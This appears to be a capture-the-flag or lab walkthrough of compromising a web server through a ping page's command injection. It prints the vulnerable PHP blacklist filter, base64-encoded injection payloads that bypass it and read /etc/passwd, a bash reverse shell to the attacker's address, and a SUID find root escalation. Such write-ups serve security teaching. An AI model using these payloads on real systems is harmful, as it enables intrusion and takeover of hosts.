

## NMAP

PORT   STATE SERVICE
80/tcp open  http


## Port 80 Enumeration

- Enum with Nikto and Gobuster
- Nikto did not return anthing interesting
- Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures no functionality
    - `superadmin.php` looks like we can ping any IP address 




- Checking burp request 


- Trying command injection with `sleep` command.
    - `;` `&` did not work but `|` worked


- As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command for five seconds.

- Tried some basic reverse shell. but did not work.
- tried `ls` and also did not return anything
- tried `cat superadmin.php`

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

- looks like there are certain blacklisted characters and commands. that's why we can't `ls` and `cat /etc/passwd`
- tried echoing a base64 encoded command then pipe to `base64 -d` then to `bash`
    - `echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`


- and it worked.

- tried with a reverse shell `bash -i >& /dev/tcp/192.168.49.210/80 0>&1`
    - `|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash` did not work for some reason, when `bash` is removed at the end it gives me the following result
           
        

        - looks like it is not printing the whole base64 encoded command.

    - tried double `base64` encoding and it worked `|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`

        

## Privesc


- we are `www-data` 
- checking `SUIDs` I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.


- `find . -exec /bin/sh \; -quit`

- and we are root.


